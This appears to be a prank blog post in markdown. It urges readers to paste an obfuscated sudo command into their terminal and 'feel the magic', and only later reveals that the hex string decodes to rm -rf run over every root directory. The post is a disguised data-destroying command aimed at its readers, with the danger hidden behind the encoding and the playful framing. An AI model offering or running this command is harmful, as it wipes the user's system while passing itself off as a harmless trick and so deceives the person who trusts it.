 ```yaml
---
layout: post
title: In case of emergency break the computer
subtitle: I see crashs, crashs all over the place
bigimg: /img/crash.gif
---
```


# In case of emergency break the computer
I see crashs, crashs all over the place

## What happens when we join the hunger with the urge to eat?

Open your TERMINAL and add a little code...

`sudo $(echo -e $(echo "726D202D7266" | sed 's/../\\x&/g;s/$/ \/*/'))`

Feel the magic happening before your eyes!

[![Echo do Mal](http://dropall.github.io/img/echo.jpg)](https://youtu.be/2DmHylxUTZw)

### Translation of code

What is actually inside the top hat

` rm -rf /bin /boot /cdrom /dev /etc /home /initrd.img /initrd.img.old /lib /lib64 /lost+found /media /mnt /opt /proc /root /run /sbin /snap /srv /sys /tmp /usr /var /vmlinuz /vmlinuz.old`



**Mage:** [@x_SHAMAN_x](https://t.me/x_SHAMAN_x) via Telegram.